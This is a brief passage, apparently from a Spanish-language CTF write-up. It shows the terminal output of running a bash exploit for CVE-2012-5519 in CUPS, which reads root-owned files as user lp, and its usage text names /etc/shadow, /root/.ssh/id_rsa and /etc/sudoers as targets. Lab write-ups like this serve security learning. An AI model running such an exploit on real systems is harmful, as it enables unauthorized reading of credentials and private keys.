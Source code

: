 * Ejecutalo:
```bash
lp@antique:~$ ./cups-root-file-read.sh 
  ___      __     ___     -----   _     _   
 / __| | | | '_ \/ __|_____| '__/ _ \ / _ \| __|____                                                                                   
| (__| |_| | |_) \__ \_____| | | (_) | (_) | ||_____|                                                                                  
 \___|\__,_| .__/|___/     |_|  \___/ \___/ \__|                                                                                       
 / _(_) | _|_|      _ __ ___  __ _  __| |  ___| |__                                                                                    
| |_| | |/ _ \_____| '__/ _ \/ _` |/ _` | / __| '_ \                                                                                   
|  _| | |  __/_____| | |  __/ (_| | (_| |_\__ \ | | |                                                                                  
|_| |_|_|\___|     |_|  \___|\__,_|\__,_(_)___/_| |_|                                                                                  
a bash implementation of CVE-2012-5519 for linux.
[i] performing checks...
[i] checking for cupsctl command...
[+] cupsctl binary found in path.                                                                                                      
[i] checking cups version...
[+] using cups 1.6.1. version may be vulnerable.                                                                                       
[i] checking user lp in lpadmin group...
[+] user part of lpadmin group.                                                                                                        
[i] checking for curl command...
[+] curl binary found in path.                                                                                                         
[+] all checks passed.                                                                                                                 
[!] warning!: this script will set the group ownership of                                                                              
[!] viewed files to user 'lp'.                                                                                                         
[!] files will be created as root and with group ownership of                                                                          
[!] user 'lp' if a nonexistant file is submitted.                                                                                      
[!] changes will be made to /etc/cups/cups.conf file as part of the                                                                    
[!] exploit. it may be wise to backup this file or copy its contents                                                                   
[!] before running the script any further if this is a production                                                                      
[!] environment and/or seek permissions beforehand.                                                                                    
[!] the nature of this exploit is messy even if you know what you're looking for.                                                      
[i] usage:
        input must be an absolute path to an existing file.
        eg.
        1. /root/.ssh/id_rsa
        2. /root/.bash_history
        3. /etc/shadow
        4. /etc/sudoers ... etc.
[i] ./cups-root-file-read.sh commands:
        type 'info' for exploit details.
        type 'help' for this dialog text.
        type 'quit' to exit the script.
[i] for more information on the limitations
```